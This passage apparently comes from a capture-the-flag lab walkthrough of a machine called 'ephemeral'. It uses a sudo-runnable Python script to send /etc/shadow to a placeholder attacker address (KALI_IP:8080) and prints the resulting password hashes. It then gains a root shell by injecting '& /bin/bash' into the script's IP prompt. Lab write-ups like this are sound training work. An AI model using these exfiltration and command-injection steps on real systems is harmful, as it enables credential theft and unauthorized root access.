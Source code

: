 **Lets run the script**

```bash
└─$ python3 file_upload.py
Starting httpd on port 8080...
```

**Back in our _ralph_ shell (replace KALI_IP with your IP):**

```bash
ralph@ephemeral:~$ sudo /usr/bin/python3 /home/ralph/getfile.py
File Path: /etc/shadow
IP Address: KALI_IP:8080
```

>[!attention] 
>This creates a file on the victim machine called `index.html`  confirming the file upload (for some reason the file doesn't actually upload, however it shows the contents of what's supposed to be uploaded).

```bash
ralph@ephemeral:~$ cat index.html
{"status": "success", "received_data": "root:$6$ONBXfYmDyD2.uHR2$b8FgiI/1JXkRDB1noB5b3fObAXL3tbZj8QrUxpbmqcw99A17fIVY.6SZM2TrBY0WT1XY0n1T0ZNlx/XKfQNqh/:19092:0:99999:7:::\ndaemon:*:19046:0:99999:7:::\nbin:*:19046:0:99999:7:::\nsys:*:19046:0:99999:7:::\nsync:*:19046:0:99999:7:::\ngames:*:19046:0:99999:7:::\nman:*:19046:0:99999:7:::\nlp:*:19046:0:99999:7:::\nmail:*:19046:0:99999:7:::\nnews:*:19046:0:99999:7:::\nuucp:*:19046:0:99999:7:::\nproxy:*:19046:0:99999:7:::\nwww-data:*:19046:0:99999:7:::\nbackup:*:19046:0:99999:7:::\nlist:*:19046:0:99999:7:::\nirc:*:19046:0:99999:7:::\ngnats:*:19046:0:99999:7:::\nnobody:*:19046:0:99999:7:::\nsystemd-network:*:19046:0:99999:7:::\nsystemd-resolve:*:19046:0:99999:7:::\nsystemd-timesync:*:19046:0:99999:7:::\nmessagebus:*:19046:0:99999:7:::\nsyslog:*:19046:0:99999:7:::\n_apt:*:19046:0:99999:7:::\ntss:*:19046:0:99999:7:::\nuuidd:*:19046:0:99999:7:::\ntcpdump:*:19046:0:99999:7:::\navahi-autoipd:*:19046:0:99999:7:::\nusbmux:*:19046:0:99999:7:::\nrtkit:*:19046:0:99999:7:::\ndnsmasq:*:19046:0:99999:7:::\ncups-pk-helper:*:19046:0:99999:7:::\nspeech-dispatcher:!:19046:0:99999:7:::\navahi:*:19046:0:99999:7:::\nkernoops:*:19046:0:99999:7:::\nsaned:*:19046:0:99999:7:::\nnm-openvpn:*:19046:0:99999:7:::\nhplip:*:19046:0:99999:7:::\nwhoopsie:*:19046:0:99999:7:::\ncolord:*:19046:0:99999:7:::\ngeoclue:*:19046:0:99999:7:::\npulse:*:19046:0:99999:7:::\ngnome-initial-setup:*:19046:0:99999:7:::\ngdm:*:19046:0:99999:7:::\nsssd:*:19046:0:99999:7:::\nrandy:$6$umc2qGGAsuxy4nTr$KGX0WfHCcQwNONY0MzThp6jhh8Y7iWhBb7IdFxVyutTcQJwQXzEYVXKi1PU5RPtr4SQziby6wOIqzayzBIPre.:19092:0:99999:7:::\nsystemd-coredump:!!:19090::::::\nralph:$6$H19Vgg5dcaicaNfZ$yBNxkgPYn9.sCw.Kiua/zYlNvQbiLP91QHu7REiHeDAyxsaxG4SBcuFkTikMjPab6f7X.13DyllNg9t88uCvp1:19092:0:99999:7:::\nsshd:*:19091:0:99999:7:::\nmysql:!:19092:0:99999:7:::\n"}
```


>[!fail]
>Attempted to crack the root user password using rockyou.txt but did not have any luck...

>[!hint]
>**After more tampering, we discovered that you can send additional command line switches to after the IP address prompt in the script; this led us to try adding an** `ampersand` **and** `/bin/bash` **after the IP to receive a root shell:**
>```bash
> ralph@ephemeral:~$ sudo /usr/bin/python3 /home/ralph/getfile.py
> File path: fakefile
> IP address: fakeip & /bin/bash
> File fakefile sent to fakeip & /bin/bash
> --2024-08-10 20:55:35--  http://fakeip/
> 
> BODY data file ‘fakefile’ missing: No such file or directory
> 
> root@ephemeral:/home/ralph# id
> uid=0(root) gid=0(root) groups=0(root)
> ```

